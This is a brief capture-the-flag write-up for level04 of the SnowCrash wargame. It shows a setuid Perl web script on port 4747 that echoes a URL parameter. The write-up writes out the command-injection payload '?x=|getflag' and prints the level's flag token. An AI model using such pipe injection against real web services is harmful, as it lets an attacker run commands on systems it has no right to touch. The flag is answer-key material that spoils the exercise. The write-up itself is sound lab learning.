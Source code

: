 ## Level 04

We can see level04 a level04.pl file in our home directory.

```bash
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

When we look at level04.pl file, we see that we have a webserver running in localhost:4747 address. We can confirm that the server is running by using the following command:

```bash
level04@SnowCrash:~$ netstat -tunl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN
tcp6       0      0 :::4646                 :::*                    LISTEN
tcp6       0      0 :::4747                 :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::4242                 :::*                    LISTEN
udp        0      0 0.0.0.0:68              0.0.0.0:*
```
This perl file echo the content provided in the x param.

As the website run command, we can write http://192.168.56.101:4747/?x=|getflag in the URL to get the flag. The pipe is added to execute the getflag command.

Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
